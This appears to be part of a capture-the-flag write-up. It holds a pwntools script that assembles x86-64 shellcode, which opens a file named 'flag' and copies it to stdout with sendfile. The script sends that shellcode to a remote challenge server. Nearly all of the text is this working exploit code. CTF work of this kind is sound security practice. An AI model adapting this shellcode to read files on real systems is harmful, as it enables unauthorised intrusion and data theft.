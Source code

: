 ![Screenshot of stdout from the target](images/img1.png)


```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall


flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 10559)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())
```